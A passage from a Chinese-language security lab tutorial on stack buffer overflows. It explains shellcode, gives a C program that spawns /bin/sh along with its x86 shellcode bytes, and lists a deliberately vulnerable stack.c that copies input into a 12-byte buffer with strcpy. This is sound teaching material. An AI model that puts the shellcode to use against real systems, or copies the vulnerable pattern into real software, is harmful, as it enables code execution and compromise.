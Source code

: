 ### 3.2 shellcode

一般情况下，缓冲区溢出会造成程序崩溃，在程序中，溢出的数据覆盖了返回地址。而如果覆盖返回地址的数据是另一个地址，那么程序就会跳转到该地址，如果该地址存放的是一段精心设计的代码用于实现其他功能，这段代码就是 shellcode。

观察以下代码：

```
#include <stdio.h>
int main( ) {
char *name[2];
name[0] = ‘‘/bin/sh’’;
name[1] = NULL;
execve(name[0], name, NULL);
} 
```

本次实验的 shellcode，就是刚才代码的汇编版本：

```
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80 
```

### 3.3 漏洞程序

把以下代码保存为“stack.c”文件，保存到 /tmp 目录下。代码如下：

```
/* stack.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
char buffer[12];

/* The following statement has a buffer overflow problem */
strcpy(buffer, str);

return 1;
}

int main(int argc, char **argv)
{
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
bof(str);
printf("Returned Properly\n");
return 1;
} 
```
